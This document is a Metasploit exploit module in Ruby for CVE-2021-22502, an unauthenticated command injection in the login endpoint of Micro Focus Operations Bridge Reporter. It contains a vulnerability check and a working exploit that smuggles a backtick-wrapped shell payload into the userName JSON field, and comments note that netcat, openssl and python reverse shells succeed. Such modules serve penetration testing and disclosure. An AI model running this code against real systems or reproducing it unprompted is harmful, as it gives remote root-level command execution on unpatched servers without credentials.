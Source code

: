 EXP
---

    ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##

    class MetasploitModule < Msf::Exploit::Remote
      Rank = ExcellentRanking

      include Msf::Exploit::Remote::HttpClient

      def initialize(info = {})
        super(
          update_info(
            info,
            'Name' => 'Micro Focus Operations Bridge Reporter Unauthenticated Command Injection',
            'Description' => %q{
              This module exploits a command injection vulnerability on *login* (yes, you read that right)
              that affects Micro Focus Operations Bridge Reporter on Linux, versions 10.40 and below.
              It's a straight up command injection, with little escaping required and it works before
              authentication.
              This module has been tested on the Linux 10.40 version. Older versions might be affected,
              check the advisory for details.
            },
            'Author' =>
              [
                'Pedro Ribeiro <pedrib[at]gmail.com>' # Vulnerability discovery and MSF module
              ],
            'License' => MSF_LICENSE,
            'References' =>
              [
                ['CVE', '2021-22502'],
                ['ZDI', '21-153'],
                ['URL', 'https://github.com/pedrib/PoC/blob/master/advisories/Micro_Focus/Micro_Focus_OBR.md'],
                ['URL', 'https://softwaresupport.softwaregrp.com/doc/KM03775947']
              ],
            'Platform' => 'unix',
            'Arch' => ARCH_CMD,
            'Privileged' => true,
            'Payload' =>
              {
                'Space' => 1024, # This should be a safe value, it might take much more
                'DisableNops' => true,
                # avoid null char and the injection char (`)
                'BadChars' => "\x00\x60",
                'Compat' =>
                  {
                    'PayloadType' => 'cmd',
                    # all of these (and more) should exist in a standard RHEL / SuSE
                    # ... which are the only two distros supported by Micro Focus OBR
                    # (telnet doesn't seem to work though)
                    #
                    # all reverse shells were tested and work flawlessly
                    'RequiredCmd' => 'netcat openssl generic python'
                  }
              },
            'Targets' =>
              [
                [ 'Micro Focus Operations Bridge Reporter (Linux) versions <= 10.40', {} ],
              ],
            'DefaultTarget' => 0,
            'DisclosureDate' => '2021-02-09'
          )
        )

        register_options(
          [
            # normal (no SSL) port is 21411
            Opt::RPORT(21412),
            OptBool.new('SSL', [true, 'Negotiate SSL/TLS', true]),
            OptString.new('TARGETURI', [true, 'Application path', '/'])
          ]
        )
      end

      def check
        res = send_request_raw({
          'method' => 'POST',
          'uri' => normalize_uri(datastore['TARGETURI'], '/AdminService/urest/v1/LogonResource'),
          'headers' => { 'Content-Type' => 'application/json' },
          'data' => rand_text_alpha(10..64)
        }, 10)

        if res && res.code == 400 && res.body.include?('Unrecognized token')
          # should return a stack trace like
          # Unrecognized token '#{data}': was expecting ('true', 'false' or 'null')
          #  at [Source: org.glassfish.jersey.message.internal.ReaderInterceptorExecutor$UnC (...)
          return Exploit::CheckCode::Detected
        end

        return Exploit::CheckCode::Unknown
      end

      def exploit
        # if there are any 0x22 (") chars in the encoded payload, escape them with a backslash
        # we have to do this manually, the encoder is not smart enough to do it, and it will
        # fail if we put 0x22 as a bad char above
        payload_enc = payload.encoded.gsub('"', '\\"')

        # we use 0x60 (`) for injection, but there are lots of other possibilities
        data = "{\"userName\":\"#{rand_text_alpha(1..16)}`#{payload_enc}`\",\"credential\":\"#{rand_text_alpha(8..20)}\"}"

        send_request_raw({
          'method' => 'POST',
          'uri' => normalize_uri(datastore['TARGETURI'], '/AdminService/urest/v1/LogonResource'),
          'headers' => { 'Content-Type' => 'application/json' },
          'data' => data
        }, 0)

        # it's tricky to check the return value of the request here
        # - it might hang (no return) and give us a shell
        # - it might return 400 or 500 and give us a shell
        # - it might return 400 or 500 and give us nothing
        # so ignore it altogether and hope for the best
        print_status("#{peer} - Payload sent, now wait for Shelly, if she doesn't arrive try again!")
      end
    end
